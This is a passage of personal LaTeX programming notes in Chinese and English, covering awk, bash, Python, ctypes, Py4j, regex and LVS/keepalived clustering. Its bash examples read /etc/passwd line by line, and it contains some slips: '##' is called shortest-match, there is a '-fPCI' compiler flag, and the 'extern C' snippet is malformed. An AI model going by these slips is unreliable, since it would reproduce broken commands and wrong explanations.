13      coolshell.cn:80 124.152.181.209:26825   FIN_WAIT1
15      coolshell.cn:80 183.60.212.163:51082    TIME_WAIT
18      coolshell.cn:80 117.136.20.85:50025     FIN_WAIT2

模式取反:
$ awk '$6 !~ /WAIT/ || NR==1 {print NR,$4,$5,$6}' OFS="\t" netstat.txt
1       Local-Address   Foreign-Address State
2       0.0.0.0:3306    0.0.0.0:*       LISTEN
3       0.0.0.0:80      0.0.0.0:*       LISTEN
4       127.0.0.1:9000  0.0.0.0:*       LISTEN
7       coolshell.cn:80 110.194.134.189:1032    ESTABLISHED
8       coolshell.cn:80 123.169.124.111:49809   ESTABLISHED
10      coolshell.cn:80 123.169.124.111:49829   ESTABLISHED
12      coolshell.cn:80 61.148.242.38:30901     ESTABLISHED
14      coolshell.cn:80 110.194.134.189:4796    ESTABLISHED
16      coolshell.cn:80 208.115.113.92:50601    LAST_ACK
17      coolshell.cn:80 123.169.124.111:49840   ESTABLISHED
19      :::22   :::*    LISTEN
\end{verbatim}

其实awk可以像grep一样的去匹配第一行,就像这样:
\begin{verbatim}
$ awk '/LISTEN/' netstat.txt
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN
tcp        0      0 :::22                   :::*                    LISTEN
\end{verbatim}

另一个文本例子:
\begin{verbatim}
$ cat score.txt
Marry   2143 78 84 77
Jack    2321 66 78 45
Tom     2122 48 77 71
Mike    2537 87 97 95
Bob     2415 40 57 62

$ cat cal.awk
#!/bin/awk -f
#运行前
BEGIN {
    math = 0
    english = 0
    computer = 0

    printf "NAME    NO.   MATH  ENGLISH  COMPUTER   TOTAL\n"
    printf "---------------------------------------------\n"
}
#运行中
{
    math+=$3
    english+=$4
    computer+=$5
    printf "%-6s %-6s %4d %8d %8d %8d\n", $1, $2, $3,$4,$5, $3+$4+$5
}
#运行后
END {
    printf "---------------------------------------------\n"
    printf "  TOTAL:%10d %8d %8d \n", math, english, computer
    printf "AVERAGE:%10.2f %8.2f %8.2f\n", math/NR, english/NR, computer/NR
}

$ awk -f cal.awk score.txt
NAME    NO.   MATH  ENGLISH  COMPUTER   TOTAL
---------------------------------------------
Marry  2143     78       84       77      239
Jack   2321     66       78       45      189
Tom    2122     48       77       71      196
Mike   2537     87       97       95      279
Bob    2415     40       57       62      159
---------------------------------------------
  TOTAL:       319      393      350
AVERAGE:     63.80    78.60    70.00
\end{verbatim}

统计当前目录下有多少源程序文件:
\begin{verbatim}
$ ls -l  *.cpp *.c *.h | awk '{sum+=$5} END {print sum}'
2511401
\end{verbatim}


统计各个connection状态:
\begin{verbatim}
$ awk 'NR!=1{a[$6]++;} END {for (i in a) print i ", " a[i];}' netstat.txt
TIME_WAIT, 3
FIN_WAIT1, 1
ESTABLISHED, 6
FIN_WAIT2, 3
LAST_ACK, 1
LISTEN, 4
\end{verbatim}

统计每个用户的进程的占了多少内存:
\begin{verbatim}
$ ps aux | awk 'NR!=1{a[$1]+=$6;} END { for(i in a) print i ", " a[i]"KB";}'
dbus, 540KB
mysql, 99928KB
www, 3264924KB
root, 63644KB
hchen, 6020KB
\end{verbatim}





%!Mode:: "TeX:UTF-8"
\section{Bash脚本的基本使用}

\subsection{变量}

一些特殊的位置变量:
\verb|$*|表示所有参数,\verb|$@|类似,

\verb|$#|表示所有参数的个数。

\verb|$n|为位置参数,特别地,\verb|$0|为脚本名称。

\verb|$?|表示上一条命令的退出状态。

\verb|$$|表示本shell进程的PID 
。






eval用于得到变量的"值的值"
\begin{verbatim}
foo=10
x=foo
y=’$’$x
echo $y
\end{verbatim}
会得到"\$foo",而
\begin{verbatim}
foo=10
x=foo
eval y=’$’$x
echo $y
\end{verbatim}
会得到10。

另一个eval用法:
\begin{verbatim}
op=1;value_$op=110;echo $value_1
\end{verbatim}



set为当前上下文设置参数变量。

\begin{verbatim}
#!/bin/sh
echo the date is $(date)
set $(date)
echo The month is $2
exit 0
\end{verbatim}

unset命令取消一个变量:
\begin{verbatim}
foo=”Hello World”
echo $foo
unset foo
echo $foo
\end{verbatim}

export命令让变量在子shell可见。

倒引号 (backticks, \verb|``|)用于命令替换,但\verb|$(...)|是另一种(更新的)方式:
\begin{verbatim}
output=$(sed -n /"$1"/p $file)
\end{verbatim}

\verb|$#|表示参数个数,
\verb|$@|在Bash中表示所有参数集合,在参数不确定时非常有用。完美世界面试时曾考我这个知识。


\subsection{条件测试}
\begin{verbatim}
#!/bin/sh
echo “Is it morning? Please answer yes or no”
read timeofday
if [ “$timeofday” = “yes” ]
then
  echo “Good morning”
elif [  “$timeofday” = “no” ]; then
  echo “Good afternoon”
else
  echo “Sorry, $timeofday not recognized. Enter yes or no”
  exit 1
fi

exit 0
\end{verbatim}
注意,\verb$timeofday$加双引号是为了以防其为空串时不合语法。

命令的连接同C语言:\verb$ $$, || $。
\begin{verbatim}
if [ -f file_one ] && echo “hello” && [ -f file_two ] && echo “ there”
then
  echo “in if”
else
  echo “in else”
fi
\end{verbatim}

测试条件包括:
\begin{description}
    \item[string1 = string2] 字符串相等
    \item[-n string] 字符串非空
    \item[-z string] 字符串空
    \item[expression1 -eq expression2] 表达式相等
    \item[expression1 -ne expression2] 表达式不等
    \item[expression1 -gt expression2] 大于。如\verb|a=3; if [ "$a" -gt 0 ] ...|
    \item[expression1 -ge expression2] 大于等于
    \item[-d file]是否为目录
    \item[-f file]是否为普通文件
    \item[-r file]文件可读,类似有-w,-x选项
    \item[-s file]non-zero size文件
    \item[-S file]文件是个socket
    \item[d]删除行
    \item[p]打印行
\end{description}

\subsection{循环}
\begin{verbatim}
#!/bin/sh
for foo in bar fud 43
do
echo $foo
done
exit 0
\end{verbatim}

\begin{verbatim}
for file in $(ls f*.sh); do
  lpr $file
done
exit 0
\end{verbatim}

\begin{verbatim}
#!/bin/sh
echo “Enter password”
read trythis
while [ “$trythis” != “secret” ]; do
  echo “Sorry, try again”
  read trythis
done
exit 0
\end{verbatim}





\subsection{算术运算}
主要有三种语法实现算术运输,expr,let和双小括号。第一种方式比较旧。
\begin{verbatim}
1.x=`expr $x + 1`或x=$(expr $x + 1),运算符两侧需要空格
2.x=$(($x+1))或x=$((x+1))或((x+=1))或((x += 1)),在双小括号中'$'和空格可选
3.let x=$x+1或let "x+=1"或 let "x += 1"
\end{verbatim}
对于expr,注意乘法符号\verb$*$可能需要转义。

\subsection{字符串运算}
有多种方式表示字符串长度:
\begin{verbatim}
${#string}
expr length $string
expr "$string" : '.*'
\end{verbatim}

\verb|expr index $string $substring|用于匹配,返回匹配位置。

\verb|${string:pos}|用于截取子串,从pos所示位置开始。

\verb|${string:pos:len}|用于截取子串,从pos所示位置开始,并指定子串长度。

\verb|${string#substring}|用于删除子串,前向最短匹配。

\verb|${string##substring}|用于删除子串,前向最短匹配。

\verb|${string%substring}|用于删除子串,后向最短匹配。

\verb|${string%%substring}|用于删除子串,后向最长匹配。

\verb|${string/substring/replacement}|用于替换第一个匹配。

\verb|${string//substring/replacement}|用于替换所有匹配。



\begin{verbatim}

\end{verbatim}

\begin{verbatim}

\end{verbatim}


\subsection{函数}
\begin{verbatim}
#!/bin/sh
foo() {
  local loc_var=23 # Declared as local variable
  echo “$1”
}

echo “script starting”
foo "haha"
echo “script ended”
exit 0
\end{verbatim}


\subsection{逐行读取}
\begin{verbatim}
方法一,指定换行符读取:
#! /bin/bash  
  
IFS="  
"  
  
for LINE in `cat /etc/passwd`  
do   
        echo $LINE 
done
 
方法二,文件重定向给read处理:
#! /bin/bash  
  
cat /etc/passwd | while read LINE  
do
        echo $LINE 
done
 
 
方法三,用read读取文件重定向:
#! /bin/bash  
  
while read LINE
do
        echo $LINE 
done < /etc/passwd
\end{verbatim}









\section{常用语言的共性}


\subsection{Lambda表达式}
\begin{verbatim}
Python: foo = lambda x: x*x
\end{verbatim}


\subsection{构造子串}
\begin{verbatim}
Python: str[start:stop:steps]
C++: string.substr(start,len)
JS:stringObject.slice(start,stop), stringObject.substring(start,stop),前者可采用负数
\end{verbatim}

\subsection{获取UNIX时间戳}
\begin{verbatim}
Python: int(time.time())
JS:Date.now()/1000, new Date().getTime()/1000, 
\end{verbatim}

\subsection{并发}

\begin{verbatim}
Python: threading, multiprocessing
\end{verbatim}

\subsection{输入输出缓冲}
\begin{verbatim}
python -u
\end{verbatim}



%!Mode:: "TeX:UTF-8"
\section{Lua笔记}
判断表为非空:

next函数,而不要采用\verb$t ~= {}$



ngx.location.capture:
Issue a synchronous but still non-blocking Nginx Subrequest.



Nginx's subrequests provide a powerful way to make non-blocking internal requests to other locations configured with disk file directory or any other nginx C modules like ngx_proxy, ngx_fastcgi, ngx_memc, ngx_postgres, ngx_drizzle, and even ngx_lua itself and etc etc etc.

Also note that subrequests just mimic the HTTP interface but there is no extra HTTP/TCP traffic nor IPC involved. Everything works internally, efficiently, on the C level.

Subrequests are completely different from HTTP 301/302 redirection (via ngx.redirect) and internal redirection (via ngx.exec).
%!Mode:: "TeX:UTF-8"

\section{Mixed Language Programming}
\subsection{Mixing C with C++}
\begin{verbatim}
#ifdef __cplusplus
extern C {}
\end{verbatim}

\subsection{Calling C from Python with ctypes}

\url{https://segmentfault.com/a/1190000000479951}

\url{https://www.zhihu.com/question/23003213}

\href{https://docs.python.org/2/library/ctypes.html##ctypes-tutorial}{Ctypes Tutorial}

\href{https://docs.python.org/2/library/ctypes.html#ctypes-reference}{Ctypes Reference}

 
 creating a dynamic library from a .o file:

\begin{verbatim}
ar crv libctest.a c_test.o
gcc -shared -fPCI -o libctest.so c_test.o
\end{verbatim}

ctypes example:
\begin{verbatim}
from ctypes import *
libc = CDLL("libc.so.6")
libc.printf("hello world\n")
libget = CDLL("libgetinfo.so")
libget.nisc_get_rx_free_ratio.restype = POINTER(c_double * 24) 
ratios = libget.nisc_get_rx_free_ratio().contents
\end{verbatim}

\subsubsection{Returning a pointer to a structure}

C part:
\begin{verbatim}
typedef struct pag_stats_node
{
	double core_usage;
	double core_freq;
	uint32_t buf_size;
} stats_node_t;

stats_node_t st;
stats_node_t *test()
{
	st.core_usage = 1;
	st.core_freq = 2;
	st.buf_size = 3;
	return &st;
}
\end{verbatim}

Python part:
\begin{verbatim}
class stat(Structure):
     _fields_=[("u",c_double),
              ("f",c_double),
              ("b",c_uint)]

libget.test.restype = POINTER(stat)
statv = libget.test()
print statv.contents.u
print statv.contents.f
print statv.contents.b
\end{verbatim}


\subsection{Calling Python from C}
\begin{verbatim}
#include <Python.h>

int main(int argc, char *argv[])
{
  Py_SetProgramName(argv[0]);
  Py_Initialize();
  PyRun_SimpleString("print 'Hello Python!'\n");
  Py_Finalize();
  return 0;
}
\end{verbatim}

To compile:
\begin{verbatim}
gcc my_python.c -o my_python -I/usr/include/python2.7/ -lpython2.7
\end{verbatim}

\subsection{Calling Java from Python with Py4j}

Solutions include Pyjnius/Jnius, JCC, javabridge, Jpype and Py4j.
Jpype works pretty well and is proven in many projects (such as
python-boilerpipe), but Pyjnius is faster and simpler than JPype.
Py4j is a bit hard to use, as you need to start a gateway, adding another layer
of fragility.

Here is a simple example for Py4j. 
Suppose you have a Java project in which your Python code requires access to
MyClass.

\begin{lstlisting}[language=Java]
// In MyClass.java
package py4j.examples;

public class MyClass {
  public int addOne(int x) {
    return x+1;
  }
}

\end{lstlisting}

To enable Python access, first you write a entry point class in the same
project:

\begin{lstlisting}[language=Java]
package py4j.examples;

import py4j.GatewayServer;

public class EntryPoint {
    public static void main(String[] args) {
        GatewayServer gatewayServer = new GatewayServer(new EntryPoint());
        gatewayServer.start();
        System.out.println("Gateway Server Started ... ");
    }
}
\end{lstlisting}

Then you compile the project into entry.jar and run it:

\begin{verbatim}
java -cp entry.jar py4j.examples.EntryPoint
\end{verbatim}

Now your Python code can access MyClass via this entry point:

\begin{lstlisting}
from py4j.java_gateway import JavaGateway
gateway = JavaGateway()
jobj = gateway.jvm.py4j.examples.MyClass()
print jobj.addOne(5)
\end{lstlisting}








%!Mode:: "TeX:UTF-8"
\section{对象大小与对齐}

\subsection{Java对象内存占用} 

Java对象的内存开销包含16字节的管理开销,成员类型开销,内嵌类指向外围类的引用。

假定我们讨论的是64位机,对象如引用其他对象,则包含8字节引用开销。

参考文章:

\href{http://blog.csdn.net/silentbalanceyh/article/details/4661230}{Java内存模型}











%!Mode:: "TeX:UTF-8"

\section{Python Examples}
\subsection{Python版本查询}
\begin{verbatim}
shell执行:python -V
Python脚本:import sys;print sys.version
\end{verbatim}

\subsection{Python包}
额外包安装:
\begin{verbatim}
pip install package
\end{verbatim}

升级pip:
\begin{verbatim}
python -m pip install --upgrade --force pip
\end{verbatim}


\subsection{Python类型判断}
\begin{verbatim}
>>>a=1
>>> isinstance(a,int)
True
>>> isinstance(a,(int,float))
True
>>> type(a)
<type 'int'>
>>> type(int())
<type 'int'>
>>> class AClass():
...     pass
... 
>>> a=AClass
>>> type(a)
<type 'classobj'>
>>> isinstance(a, AClass)
False
>>> b=AClass()
>>> isinstance(b, AClass)
True
\end{verbatim}

dir(A)列出A所属类的所有成员方法。

\subsection{Python特殊矩阵}
\begin{verbatim}
buckets = [0] * 100 #这种矩阵可能会出现赋值异常,即会保持所有值恒等。
buckets = [[0 for col in range(5)] for row in range(10)]

w, h = 100, 100
bucket = [[None] * w for i in range(h)]

import numpy
zarray = numpy.zeros(100)


\end{verbatim}

\subsection{lambda运算}
“Lambda 表达式”(lambda expression)是一个匿名函数.

\begin{lstlisting}
g = lambda x:x*2
print g(3)
 
li=[{"age":20,"name":"def"},{"age":25,"name":"abc"},{"age":10,"name":"ghi"}]
li=sorted(li,key=lambda x:x["age"])
print(li)
\end{lstlisting}





\section{Python脚本常用功能}
常用对象和函数
\begin{lstlisting}
    sys.argv
    len(sys.argv)
    os.system()
    time.sleep()
    sys.exit()
    os.path.exists()
    os.path.isfile()
    os.path.split()
    os.path.basename()
    __file__
\end{lstlisting}


\subsection{正则匹配}
Use \verb|re.search(pattern, string, flags=0)| API.

E.g:
\begin{lstlisting}
import re
m = re.search('(?<=abc)def', 'abcdef')
print m.group(0)
\end{lstlisting}

\subsection{检查文件是否存在}
os.path.isfile(filename)

检查文件是否可执行:
\begin{verbatim}
fpath = commands.getoutput('which %s'% handler)
if not (os.path.isfile(fpath) and os.access(fpath, os.X_OK)):
\end{verbatim}

\subsection{Current Script Name}
\begin{lstlisting}
os.path.basename(sys.argv[0])
os.path.basename(__file__)
os.path.split(sys.argv[0])[1]
\end{lstlisting}

\subsection{Current Path}
\begin{lstlisting}
    os.path.dirname(__file__)
\end{lstlisting}


\subsection{List files in some folder}
\begin{lstlisting}
	ifaces = os.listdir('/sys/class/net')
\end{lstlisting}

\subsection{执行外部程序}
\begin{verbatim}
os.system(cmd)
commands.getstatusoutput(cmd)
subprocess.Popen([],...)
subprocess.check_output(["echo", "Hello World!"])
pexpect.spawn()
\end{verbatim}
subprocess模块定义了Popen类,试图取代os.system,os.spawn,os.popen, popen2,commands等模块。除Popen外,还定义了一些简洁函数call, check\_call, check\_output.详见subprocess文档。

pexpect包含的spawn类具有强大的交互功能,适用于ssh,scp等工具。

如果需要非阻塞式地获取进程的输出,似乎只能用subprocess.Popen或pexpect.spawn。

For Python 2.7+, get command output like this:
\begin{lstlisting}
output=subprocess.check_output(["echo", "Hello World!"])
\end{lstlisting}

Before Python 2.7, this can get command output:
\begin{lstlisting}
output = subprocess.Popen(['echo', 'Hello World'], stdout=subprocess.PIPE).communicate()[0]
\end{lstlisting}



\subsection{遍历stdin和文件}

文件的read()方法:读取整个文件内容。
\begin{verbatim}
import sys
text = sys.stdin.read()
words = text.split()
\end{verbatim}

文件的readline()方法:

\begin{verbatim}
f = open(filename)
while True:
line = f.readline()
if not line: break
process(line)
f.close()
\end{verbatim}

文件的readlines方法:
\begin{verbatim}
f = open(filename)
for line in f.readlines():
process(line)
f.close()
\end{verbatim}

文件迭代器:
\begin{verbatim}
f = open(filename)
for line in f:
process(line)
f.close()
\end{verbatim}

\section{Python科研仿真程序常用功能}

\subsection{浮点除法}
\begin{lstlisting}
from __future__ import division
\end{lstlisting}
即可让除法默认为浮点除法。
\subsection{随机数}
random模块提供了random,uniform, shuffle等函数。


\section{Excel File Read and Write}
Relevant libs include xlrd,xlwt, xlutils,Python-xlsx and PyXLSX,openpyxl.
Site \url{www.python-excel.org} contains pointers to information available about working with Excel files in the Python
programming language.

\textbf{openpyxl} is the recommended package for reading and writing Excel 2010
files (ie: .xlsx). 
\textbf{xlrd} and \textbf{xlwt} packages are for reading from and writing to
older Excel files (ie: .xls).
 

xlrd example:
\begin{lstlisting}
import xlrd
data = xlrd.open_workbook('2016.xls')
table = data.sheets()[0]
nrows = table.nrows
ncols = table.ncols
val = table.cell(3, 2).value
\end{lstlisting}

xlwt example:
\begin{lstlisting}
import xlwt
book = xlwt.Workbook()
sheet1 = book.add_sheet('Sheet 1')
sheet1.write(3, 2, 'hello')
\end{lstlisting}



\section{Python时间与日期} 

Python的datetime包提供了日期与时间相关的操作。
\begin{verbatim}
#datetime提供了date,datetime,timedelta等类
from datetime import * 
#日期差计算
date(2012,7,28)-date(2012,7,25)
date.today()-date(2012,7,25)
#时间差计算
#datetime参数中,时、分、秒、微秒可选
datetime.now()-datetime(2012,7,25,09,23,45,23333)
#日期推算
#timedelta参数依次为天、秒、微秒,后两者可选
datetime(2012,7,25)+timedelta(2) #2天后的日期
date(2012,7,25)+timedelta(2) #2天后的日期
\end{verbatim}

两个date对象相减,得到的是timedelta类型的对象,如果想返回整数,则有:
\begin{verbatim}
(date.today()-date(2012,7,25)).days
\end{verbatim}

calendar模块提供了查询平闰年和星期的功能,如
\begin{verbatim}
calendar.isleap(2000)
calendar.weekday(2000, 1, 1) #周一是0,周日是6
\end{verbatim}
calendar也能产生日历字符串如:
\begin{verbatim}
print calendar.month(2000, 1) #月历
print calendar.calendar(2000) #年历
\end{verbatim}

\label{sec:pythonTimeCalc}


\section{Python字符编码问题}
\subsection{Python中文字符输出}
\begin{verbatim}
#!/usr/bin/python
# -*- coding: utf-8 -*-

u"中文¥ chinese"
\end{verbatim}

\subsection{Python Unicode序列与字符串}
unicode(str,encoding)函数将字符串str转换为unicode序列。

str.encode(encoding)将某种编码的字符串转为另一种编码的字符串。如:
\begin{verbatim}
str = u'你'
str2 = str.encode('gbk')
str3 = str.encode('utf8')#此处也作'utf-8'
\end{verbatim}


一个unicode数值可表示为字符串\verb|u'%c'%i|.中文“你”的unicode序列为0x4f60,unicode字符串为\verb|u'\u4f60'|。假设unicode数字序列用链表uarray表示,则其转换为unicode编码的字符串的过程为:
\begin{verbatim}
str = ''
for ucode in uarray: str += '%c'%ucode
\end{verbatim}

\label{subsec:PythonUnicode}

\section{Terminal Handling: pexpect, cmd}

\begin{lstlisting}
import pexpect
child = pexpect.spawn("ssh root@172.16.0.120 -p 2222")
child.logfile = open("/tmp/mylog", "w")
child.expect(".*assword:")
child.send("XXXXXXX\r")
child.expect(".*\$ ")
child.sendline("ls\r")
child.expect(".*\$ ")
\end{lstlisting}


\begin{lstlisting}
import cmd
import string, sys

class CLI(cmd.Cmd):

    def __init__(self):
        cmd.Cmd.__init__(self)
        self.prompt = '> '

    def do_hello(self, arg):
        print "hello again", arg, "!"

    def help_hello(self):
        print "syntax: hello [message]",
        print "-- prints a hello message"

    def do_quit(self, arg):
        sys.exit(1)

    def help_quit(self):
        print "syntax: quit",
        print "-- terminates the application"

    # shortcuts
    do_q = do_quit

#
# try it out

cli = CLI()
\end{lstlisting}


























%!Mode:: "TeX:UTF-8"
\section{正则表达式}

常用元字符:
\begin{itemize}
\item \verb$\w$:匹配字母或数字或下划线或汉字。在英文中等于\verb$[a-z0-9A-Z_]$
\item \verb$\W$:匹配不是字母或数字或下划线或汉字的字符
\item \verb$\s$:匹配任意的空白符
\item \verb$\S$:匹配任意的非空白符
\item \verb$\d$:匹配数字
\item \verb$\D$:匹配非数字字符
\item \verb$\b$:匹配单词的开始或结束。它的前一个字符和后一个字符不全是(一个是,一个不是或不存在)\verb$\w$
\item \verb$\B$:匹配非\verb$\b$字符
\item \verb$[aeiou]$:匹配某元音字母
\item \verb$[^aeiou]$:匹配非\verb$[aeiou]$字符
\item \verb$^$:匹配字符串的开始
\item \verb|$|:匹配字符串的结束
\item \verb$.$: 匹配除换行符以外的任意字符
\end{itemize}

常用限定符:
\begin{itemize}
\item \verb$*$: 零次或多次
\item \verb$+$: 一次或多次
\item \verb$?$:零次或一次
\item \verb${n}$:n次。如\verb$\b\w{6}\b$匹配长度为6的单词。
\item \verb${n,}$:至少n次
\item \verb${n,m}$:n次到m次
\end{itemize}

正则表达式里的分枝条件指的是有几种规则,如果满足其中任意一种规则都应该当成匹配,但前面的规则优先:
\verb$\d{5}-\d{4}|\d{5}$这个表达式用于匹配美国的邮政编码。美国邮编的规则是5位数字,或者用连字号间隔的9位数字。
如果写成\verb$\d{5}|\d{5}-\d{4}$则只能匹配5位数字,因为前面的规则短路包含了后面的规则。

\verb$0\d{2}-\d{8}|0\d{3}-\d{7}$这个表达式能匹配两种以连字号分隔的电话号码:
一种是三位区号,8位本地号(如010-12345678),一种是4位区号,7位本地号(0376-2233445)。

\verb$((2[0-4]\d|25[0-5]|[01]?\d\d?)\.){3}(2[0-4]\d|25[0-5]|[01]?\d\d?)$匹配合法的IPv4地址。
小括号的另一种用途是通过语法\verb$(?#comment)$来包含注释。例如:\verb$2[0-4]\d(?#200-249)|25[0-5](?#250-255)|[01]?\d\d?(?#0-199)$。

正则表达式默认贪婪匹配,a.*b,它将会匹配\textbf{最长的}以a开始,以b结束的字符串。
前面给出的限定符都可以被转化为懒惰匹配模式,只要在它后面加上一个问号。\verb$a.*?b$匹配最短的,以a开始,以b结束的字符串。
如果把它应用于aabab的话,它会匹配aab(第一到第三个字符)和ab(第四到第五个字符)。
为什么第一个匹配是aab(第一到第三个字符)而不是ab(第二到第三个字符)?
简单地说,因为正则表达式有另一条规则,比懒惰/贪婪规则的优先级更高:最先开始的匹配拥有最高的优先权。

























%!Mode:: "TeX:UTF-8"

\section{Scala}

\subsection{Hello World}

\begin{lstlisting}
object Hi {
  def main(args: Array[String]) = println("Hi!")
}
\end{lstlisting}


\subsection{Case Classes}

\href{http://www.codecommit.com/blog/scala/case-classes-are-cool}{Case Classes Are Cool}

\subsection{Special Symbols}



\href{http://docs.scala-lang.org/tutorials/FAQ/finding-symbols.html}{How do I
find what some symbol means or does?}

\href{http://www.scala-lang.org/api/current/index.html#index.index-_}{Scaladoc
index page for identifiers not starting with letters}

%!Mode:: "TeX:UTF-8"
 \chapter{Web与HTTP}

%!Mode:: "TeX:UTF-8"
\section{服务器集群}

一个完整的负载均衡项目,一般由虚拟服务器、故障隔离及失败切换3个功能框架所组成。

\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Network/VirtualServer.jpg}
	\caption{虚拟服务器}
	\label{fig:VirtualServer}
	\end{center}
\end{figure}

虚拟服务器是负载均衡体系的基本架构,它分两层结构:转发器(Director)和真实服务器。图\ref{fig:VirtualServer}为虚拟服务器的结构示意。

为什么称虚拟服务器?因为从用户的角度看来,似乎只是一个服务器在提供服务。虚拟服务器最主要的功能是提供包转发和负载均衡,这个功能可以通过撰写ipvsadm脚本具体实现。虚拟服务器项目由章文嵩博士所贡献,目前已被添加到各种Linux发行版的内核。

故障隔离指虚拟服务器中的某个真实服务器(或某几个真实服务器)失效或发生故障,系统将自动把失效的服务器从转发队列中清理出去,从而保证用户访问的正确性;另一方面,当实效的服务器被修复以后,系统再自动地把它加入转发队列。

失败切换,这是针对负载均衡器Director采取的措施,在有两个负载均衡器Director的应用场景,当主负载均衡器(MASTER)失效或出现故障,备份负载均衡器(BACKUP)将自动接管主负载均衡器的工作;一旦主负载均衡器故障修复,两者将恢复到最初的角色。

要从技术上实现虚拟服务器、故障隔离及失败切换3个功能,需要两个工具:ipvsadm和keepalived。当然也有heartbeat这样的工具可以实现同样的功能,但相对于keepalived,heartbeat的实现要复杂得多(如撰写ipvsadm脚本,部署ldirectord,编写资源文件等)。在采用keepalived的方案里,只要ipvsadm被正确的安装,简单的配置唯一的文件keepalived就行了。


\subsection{LVS}
LVS是Linux Virtual Server的简写,意即Linux虚拟服务器,是一个虚拟的服务器集群系统。本项目在1998年5月由章文嵩博士成立,是中国国内最早出现的自由软件项目之一。

\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Network/LinuxToneSnsArch.jpg}
	\caption{LinuxTone网站架构}
	\label{fig:LinuxToneSnsArch}
	\end{center}
\end{figure}

LVS常常与keepalived进行协作,如图\ref{fig:LinuxToneSnsArch}所示。


LVS集群采用IP负载均衡技术和基于内容请求分发技术。调度器具有很好的吞吐率,将请求均衡地转移到不同的服务器上执行,且调度器自动屏蔽掉服务器的故障,从而将一组服务器构成一个高性能的、高可用的虚拟服务器。整个服务器集群的结构对客户是透明的,而且无需修改客户端和服务器端的程序。为此,在设计时需要考虑系统的透明性、可伸缩性、高可用性和易管理性。
目前有三种IP负载均衡技术\textbf{(VS/NAT、VS/TUN和VS/DR)}。

一般来说,LVS集群采用三层结构,其主要组成部分为:
\begin{description}
\item[负载调度器(load balancer)] 它是整个集群对外面的前端机,它可以采用IP负载均衡技术、基于内容请求分发技术或者两者相结合
\item[服务器池(server pool)] 是一组真正执行客户请求的服务器,执行的服务有WEB、MAIL、FTP和DNS等
\item[共享存储(shared storage)] 它为服务器池提供一个共享的存储区,这样很容易使得服务器池拥有相同的内容,提供相同的服务
\end{description}


\subsection{IPVS}
IPVS(IP Virtual Server)是运行在LVS下的提供负载平衡功能的一种技术。

IPVS基本上是一种高效的Layer-4交换机,它提供负载平衡的功能。当一个TCP连接的初始SYN报文到达时,IPVS就选择一台服务器,将报文转发给它。此后通过查发报文的IP和TCP报文头地址,保证此连接的后继报文被转发到相同的服务器。这样,IPVS无法检查到请求的内容再选择服务器,这就要求后端的服务器组是提供相同的服务,不管请求被送到哪一台服务器,返回结果都应该是一样的。但是在有一些应用中后端的服务器可能功能不一,有的是提供HTML文档的Web服务器,有的是提供图片的Web服务器,有的是提供CGI的Web服务器。这时,就需要基于内容请求分发 (Content-Based Request Distribution),同时基于内容请求分发可以提高后端服务器上访问的局部性。

LVS的IP负载平衡技术就是通过IPVS模块来实现的,IPVS是LVS集群系统的核心软件,它的主要作用是:安装在Director Server上,同时在Director Server上虚拟出一个IP地址,用户必须通过这个虚拟的IP地址访问服务。这个虚拟IP一般称为LVS的VIP,即Virtual IP。访问的请求首先经过VIP到达负载调度器,然后由负载调度器从Real Server列表中选取一个服务节点响应用户的请求。

\subsection{Keepalived}
keepalived是一款失效转发机制的软件, 它的作用是检测web服务器的状态,如果有一台web服务器死机,或工作出现故障,Keepalived将检测到,并将有故障的web服务器从系统中剔除,当web服务器工作正常后Keepalived自动将web服务器加入到服务器群中,这些工作全部自动完成,不需要人工干涉,需要人工做的只是修复故障的web服务器。

网络在设计的时候必须考虑到冗余容灾,包括线路冗余,设备冗余等,防止网络存在单点故障,那在路由器或三层交换机处实现冗余就显得尤为重要,在网络里面有个协议就是来做这事的,这个协议就是VRRP协议,Keepalived就是巧用VRRP协议来实现高可用性(HA)的。keepalived完全遵守VRRP协议,包括竞选机制等等。


\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Network/keepalivedIllus.jpg}
	\caption{Keepalived工作原理}
	\label{fig:keepalivedIllus}
	\end{center}
\end{figure}

图\ref{fig:keepalivedIllus}中主服务器和备服务器都装了keepalived软件,将keepalived配置成Master的便成了主服务器,将keepaliv-ed配置成BACKUP的自然就成了备服务器。主备服务器都通过keepalived绑定有相同的虚拟ip,外界就是利用这个虚拟ip与服务器进行交互的。正常情况下只有主服务器work,当主服务器宕机或者出现其他故障时Keepalived会将work转移到备服务器上,虚拟ip依然有效。当主服务器修复好了备用服务器会自动将work权利重新交给主服务器。 

keepalived也是模块化设计,不同模块复杂不同的功能,下面是keepalived的组件:

\begin{description}
\item[core]是keepalived的核心,复杂主进程的启动和维护,全局配置文件的加载解析等
\item[check]负责healthchecker(健康检查),包括了各种健康检查方式,以及对应的配置的解析包括LVS的配置解析
\item[vrrp]VRRPD子进程,VRRPD子进程就是来实现VRRP协议的
\item[libipfwc]iptables(ipchains)库,配置LVS会用到
\item[libipvs]配置LVS会用到
\end{description}

\begin{figure}[ht]
	\begin{center}
		\includegraphics[keepaspectratio,width=0.5\paperwidth]{Pictures/Network/KeepalivedCore.png}
	\caption{Keepalived内部架构}
	\label{fig:KeepalivedCore}
	\end{center}
\end{figure}

keepalived启动后会有三个进程。父进程负责内存管理,子进程管理等等,两个子进程分别运行VRRP和healthchecker。
被系统WatchDog看管,healthchecker子进程复杂检查各自服务器的健康程度,例如HTTP,LVS等等,如果healthchecker子进程检查到MASTER上服务不可用了,就会通知本机上的兄弟VRRP子进程,让他删除通告,并且去掉虚拟IP,转换为BACKUP。

\subsection{Watchdog}

Carrier Grade Linux 是 OSDL(Open Source Development Lab)发布的电信级 Linux 的标准,在系统可用性这部分指出Linux必须支持 watchdog 机制。

Watchdog在实现上可以是硬件电路也可以是软件定时器,能够在系统出现故障时自动重新启动系统。在Linux 内核下, watchdog的基本工作原理是:当watchdog启动后(即/dev/watchdog 设备被打开后),如果在某一设定的时间间隔内/dev/watchdog没有被执行写操作, 硬件watchdog电路或软件定时器就会重新启动系统。

